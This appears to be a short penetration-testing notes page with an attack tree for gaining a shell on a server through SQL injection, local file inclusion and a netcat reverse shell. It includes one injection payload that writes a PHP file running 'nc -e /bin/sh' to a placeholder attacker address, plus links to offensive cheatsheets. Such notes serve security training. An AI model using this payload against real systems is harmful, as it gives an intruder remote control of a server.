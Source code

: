 # Get shell and control target server

## Attack tree

```text
1 Netcat installed on both systems (hacking and target machines) (AND)
    1.1 Install netcat on both systems (AND)
    1.2 Create a reverse shell (AND)
    1.3 Setup a netcat listener on the hacking machine
2 SQL injection writing payload to server (AND)
    2.1 Find out if the database is vulnerable (AND)
        1.1.1 Inject data in the query without breaking it
    2.2 Find the amount of columns (AND)
    2.3 Find which columns accept queries (AND)
    2.4 Build an UNION SELECT SQL segment (AND)
    2.5 Inject SQL statements into the column (AND)
    2.6 Post exploitation
3 Use file inclusion vulnerability of any website on the server to run the payload
    3.1 Connect to the listener from the target machine (AND)
    3.2 Post exploitation
```
## Example SQL segments

PHP (and nc):
```text
-1' UNION SELECT '<?passthru("nc -e /bin/sh/ <IP hacking server> <port>");?>',null into outfile '/tmp/reverse.php' /*
```

## Notes

Works only in combination with a local file inclusion vulnerability.

## Tools
* [Burp suite CE proxy](https://portswigger.net/burp/documentation/desktop/getting-started/intercepting-http-traffic)

## Cheatsheets

* [MSFvenom cheatsheet](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/)
* [Path Traversal Cheat Sheet: Windows](https://www.akimbocore.com/article/windows-path-traversal-cheat-sheet/)
* [Path Traversal Cheat Sheet: Linux](https://www.akimbocore.com/article/linux-path-traversal-cheat-sheet/)

